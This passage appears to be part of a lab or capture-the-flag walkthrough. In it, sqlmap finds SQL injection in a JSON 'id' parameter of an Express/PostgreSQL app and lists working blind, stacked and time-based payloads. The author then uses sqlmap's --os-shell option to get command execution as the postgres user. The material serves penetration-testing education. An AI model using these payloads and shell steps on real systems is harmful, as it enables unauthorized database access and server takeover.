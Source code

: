 ```
...
[10:17:36] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:17:36] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[10:17:36] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[10:17:36] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: {"id":"(SELECT (CASE WHEN (7879=7879) THEN 1 ELSE (SELECT 8601 UNION SELECT 4781) END))"}

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: {"id":"1;SELECT PG_SLEEP(5)--"}

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: {"id":"1 AND 9699=(SELECT 9699 FROM PG_SLEEP(5))"}
---
[10:17:36] [INFO] the back-end DBMS is PostgreSQL
web application technology: Express
back-end DBMS: PostgreSQL
[10:17:36] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 83 times
[10:17:36] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.100.131'

[*] ending @ 10:17:36 /2023-09-28/
```

Sqlmap has identified the backend database as PostgreSQL. We can now proceed to either dump the database or, ideally, achieve command execution on the system!

PostgreSQL versions 9.3 and onwards allow superusers to run system commands via COPY TO/FROM PROGRAM function. You can read more about this vulnerability [here](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) and [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution). 

We can exploit the vulnerability either manually or using sqlmap's --os-shell switch. 

### --os-shell
```
┌──(kali㉿kali)-[~/Blitz]
└─$ sqlmap -r addAdmin.req --batch --os-shell
...
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
[10:24:32] [INFO] retrieved: uid=124(postgres) gid=130(postgres) groups=130(postgres),112(ssl-cert)
command standard output: 'uid=124(postgres) gid=130(postgres) groups=130(postgres),112(ssl-cert)'
os-shell> pwd
do you want to retrieve the command standard output? [Y/n/a] Y
[00:54:04] [INFO] retrieved: /var/lib/postgresql/15/main
command standard output: '/var/lib/postgresql/15/main'
os-shell> 
```